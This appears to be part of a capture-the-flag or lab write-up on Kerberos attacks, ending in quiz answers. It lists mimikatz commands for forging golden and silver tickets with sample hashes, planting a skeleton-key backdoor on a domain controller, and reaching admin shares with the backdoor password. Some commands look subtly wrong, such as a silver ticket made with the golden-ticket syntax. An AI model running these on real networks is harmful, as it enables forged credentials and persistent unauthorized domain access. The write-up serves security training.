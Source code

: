 ```powershell

```

- Creating a ticket for usage

```powershell
# creating a golden ticket
mimikatz # kerberos::golden /user:Administrator /domain:{domain} /sid:{user-sid(optional)} /krbtgt: {hash of krbtgt} /id:{user-id(optional)}
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /krbtgt:72cd714611b64cd4d5550cd2759db3f6 
# a ticket will be saved inthe current directory

# creating a silver ticket
mimikatz # kerberos::golden /user:Administrator /domain:{domain} /sid:{user-sid(optional)} /krbtgt: {hash of the service} /id:{user-id(optional)}
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /krbtgt:cd40c9ed96265531b21fc5b1dafcfb0a 
```

- load the genereated ticket to the current session

```powershell
mimikatz # misc::cmd
```

### Backddor with mimikatz

- Open up the mimikatz, implement `Skeleton key`

```powershell
# start up mimikatz
.\mimikatz.exe

# install skeleton key
misc::skeleton
```

- After installing the skeleton key, you can access the whole forest

```bash
# access the admin folder in the domain controller
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz

# access the specific share in the domain controller 
dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

### Answers

#### Introduction

- What does TGT stand for?
`Ticket Granting Ticket`

- What does SPN stand for?
`Service Principal Name`
